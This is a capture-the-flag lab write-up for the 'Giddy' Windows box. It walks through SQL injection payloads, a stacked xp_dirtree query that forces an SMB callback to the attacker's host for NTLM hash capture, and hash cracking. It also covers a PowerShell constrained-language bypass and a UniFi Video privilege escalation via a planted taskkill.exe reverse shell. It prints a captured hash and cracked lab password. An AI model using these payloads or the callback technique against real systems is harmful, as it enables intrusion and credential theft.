## Overview

Giddy is a Windows Server 2016 box hosting a Powershell Web Access and a Product Inventory website that was vulnerable to SQL injection which lead to the capture of Stacy's password hash. The hash was cracked with Hashcat and the credentials were used to log in via WinRM. A privilege escalation vulnerability in Ubiquiti UniFi Video that was possible due to weak folder permissions lead to shell as 'nt authority\system'

## Enumeration

**Software**

* Windows Server 2016

* Microsoft .NET Framework Version:4.0.30319

* ASP.NET Version:4.7.2623.0

* Microsoft SQL Server 2016 (SP1) (KB3182545) - 13.0.4001.0 (X64) 

* Ubiquiti UniFi Video (Windows)

**Open Ports**

```
nmap -vv --reason -Pn -sT -A --osscan-guess -p- -oN results/10.10.10.104/scans/_full_tcp_nmap.txt
```

* 80/tcp - http

* 443/tp - https

* 3389/tcp - RDP

* 5985/tcp - WinRM

**File/Folder Brute Force**

```
gobuster dir -u http://10.10.10.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx,html -t 30
```

* /remote

* /mvc

## Steps (User)

I started by browsing to http://10.10.10.104 and didn't find anything interesting although I was amused by the picture of this dog. https://10.10.10.104 showed the same image and both didn't provide any useful information.


Next I reviewed the gobuster results and browsed to the /remote page. Here I was presented with a Powershell Web Access logon screen. I reviewed the certificate to look for interesting information but it appeared a default certificate was used. Since I did not have any credentials I moved on.



Next I browsed to http://10.10.10.104/mvc and was brought to a page with a list of products. 



I poked around a bit to see if the site was vulnerable to SQL injection. I was able to cause the site to error when I typed in a single quote on the search page (didn't get anywhere with this one) and again with the ProductSubCategoryId parameter with the single quote. 

```
/Product.aspx?ProductSubCategoryId=18'
```



I attempted to extract data manually, first by determining the number of columns by using order by and incrementing until an error was received. An error was received at 26 which told me there were 25 columns. 

```
=1 order by 25--
```

I set up the union select statement with the correct number of nulls any more or less caused an error.

```
1 union select null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--
```

The next step is to determine which of the columns will display information in the results. I received an error on the first column (probably a unique identifier?) but 2nd and 3rd columns supported text strings. I tried a simple command to get the version by putting '@@Version' in the second column and version information was output to the screen.

```
1 union select null,@@version,'b',null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--
```



I used user_name() to get the username which was Giddy\Stacy

```
1 union select null,user_name(),'b',null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--
```



Next I listed all databases and the page showed master, tempdb, model, msdb, injection

```
1 union select null,name,'b',null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null FROM master ..sysdatabases--
```



I dumped all the table and column names to the screen. From here it's possible to use queries like UNION SELECT NULL,Passwords,NULL FROM Memberships-- to extract data from different tables/columns. I was hoping to find a password hash that could be used to log into Powershell Web Access but there was nothing like that being stored.

```
1 union select null,table_name,column_name,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from information_schema.columns--
```



I copied the request file and used it with sqlmap to see if there were any other vulnerabilities and it showed that stacked queries were possible.



Stacked queries basically allows for additional queries seperated by a semi-colon (stacked together) to be executed. To test that it worked I executed the command below and made sure that the page came back at 10 seconds.

```
GET /mvc/Product.aspx?ProductSubCategoryId=1 WAITFOR DELAY '0:0:10'
```



With Stacked queries working, I tried enabling xp_cmdshell but was unsuccessful. Next I tried dirtree to see if I could have the database make an smb connection back to my box where I had responder listening.  

```
1; use master; exec xp_dirtree '\\10.10.14.7\SHARE';-- 
```



```
sudo responder -I tun0
```



I successfully captured Stacy's hash. I saved the hash to a file and copied it to my physical windows box and was able to recovery the password pretty quickly with Hashcat. Password stacy:xNnWo6272k7x

```
Stacy::GIDDY:ef488c4620e94fea:280DEBA7C6D8C1C0FD8874439D38C388:010100000000000000CDEB4AB5AED7019DBD90C3BE00928F0000000002000800580043003800320001001E00570049004E002D004C003600330059004D0053003000430030004400490004003400570049004E002D004C003600330059004D005300300043003000440049002E0058004300380032002E004C004F00430041004C000300140058004300380032002E004C004F00430041004C000500140058004300380032002E004C004F00430041004C000700080000CDEB4AB5AED70106000400020000000800300030000000000000000000000000300000EE91D1426E254143CE452DAAAD429A69D72527BE4E8E12F895B0B7DA60AC4F750A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E003700000000000000000000000000
```

```
hashcat -a 0 -m 5600 .\giddy.hash .\rockyou.txt
```



Since I now had credentials I navigated back to the Powershell Web Access site but for whatever reason I was not able to log in. After researching this for a bit I decided to move on and used evil-winrm to gain access instead.





## Steps (root/system)

After logging in I was unable to execute commands due to being in Constrained lanugage mode. Contrained Language Mode allows day-to-day administrative tasks but restricts access to sensitive language elements used to invoke arbitrary Windows APIs. 

```
$ExecutionContext.SessionState.LanguageMode
```



I did some research on how to bypass constrained language mode and came across this [page](https://github.com/calebstewart/bypass-clm) by Caleb Stewart. I fired up Visual Studio on another box, cloned the repo and took a look at the code. How I understand it, this bypasses CLM by patching the current powershell process. I decided to make a modification to have it call another powershell script instead since I was going to be interacting with the box via WinRM. I updated the line to call a script at c:\windows\tasks\test.ps1. I compiled it and copied it back to my kali box.



I copied bpclm.exe (short for bypass clm) and Invoke-PowerShellTcp.ps1 that I had used for a previous box up to Giddy using Impacket's smbserver to c:\windows\tasks and renamed it to test.ps1. I set up a netcat listener, executed bpclm.exe, and received a shell in full language mode.

> Note: smb was the only way I could transfer files in constrained language mode. Also I had to put the files in C:\Windows\Tasks due to App Locker as I was able to run the executable there.

```
smbserver.py share 'pwd' -smb2support
```



> Having a shell with Full Language Made ultimately did not help me with privilege escalation but it was a good learning exercise anyway. 

I found a hint in Stacy's documents folder which contained a file called unifivideo. 



I did a search on exploit-db and came across a [privilege escalation](https://www.exploit-db.com/exploits/43390) vulnerability for  Ubiquiti UniFi Video 3.7.3. The advisory explains that the permissions on the unifi-video  folder allow all users, even unprivileged ones, to append or write files to the application directory. In addition to that when the service is restarted it looks for taskkill.exe which doesn't exist in the folder by default. I changed over to C:\ProgramData and sure enough there was a folder called unifi-video.

I tried Get-Service without specifying the service name and received access denied error.  After re-reading the advisory I thought I'd try the command again, this time specifying the service name. I had to sort of guess at the name and I got lucky, I used the name provided in the advisory "Ubiquiti UniFi Video" with the command and it worked. I was also able to successfully run restart-service -name "Ubiquiti UniFi Video"



I re-used the CLM bypass exe by renaming it to taskkill.exe and placing it into c:\programdata\unifi-video. Now that I determined that I was able to restart the service, I did so, taskkill.exe executed the powershell file, which called back to my netcat listener, and resulted in a shell and access as 'nt authority/system'


